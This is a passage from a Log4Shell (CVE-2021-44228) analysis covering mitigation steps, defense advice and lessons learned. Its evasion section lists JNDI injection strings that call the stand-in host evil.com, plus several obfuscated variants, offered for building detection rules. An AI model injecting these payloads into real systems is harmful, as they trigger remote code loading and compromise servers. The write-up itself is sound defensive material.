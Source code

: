 ```yara
        any of them
}
```

## Mitigation

### Immediate Actions

1. **Upgrade Log4j** to version 2.17.1 or later
2. **Set JVM flag**: `-Dlog4j2.formatMsgNoLookups=true`
3. **Remove JndiLookup class**:
   ```bash
   zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
   ```

### Long-Term Defense

- **Input validation**: Sanitize all user inputs
- **WAF rules**: Deploy rules to block JNDI patterns
- **Network segmentation**: Restrict outbound connections
- **Monitoring**: Implement detection rules for exploitation attempts
- **Inventory**: Maintain a software bill of materials (SBOM)

## Lessons Learned

1. **Dependency management is critical** - Many organizations didn't know they were using Log4j
2. **Features can be vulnerabilities** - JNDI lookups seemed useful but created a massive attack surface
3. **Defense in depth matters** - Organizations with proper egress filtering had more time to patch
4. **Patch management is essential** - The vulnerability was patched quickly, but many systems remain vulnerable

## Bypasses and Evasion

Attackers have developed numerous obfuscation techniques to evade detection:

```
${jndi:ldap://evil.com/a}                    # Basic
${${lower:j}ndi:ldap://evil.com/a}          # Case obfuscation
${${lower:j}${upper:n}${lower:d}${upper:i}} # Mixed case
${${::-j}${::-n}${::-d}${::-i}:ldap://...}  # Substring manipulation
${${env:BARFOO:-j}ndi${env:BARFOO:-:}...}   # Environment variable tricks
```

Defenders must account for these variations in their detection rules.

## Conclusion

Log4Shell represents a perfect storm: a critical vulnerability in widely-used software with trivial exploitation. It's a stark reminder that security must be baked into software development from the ground up, and that dependency management is a critical security function.
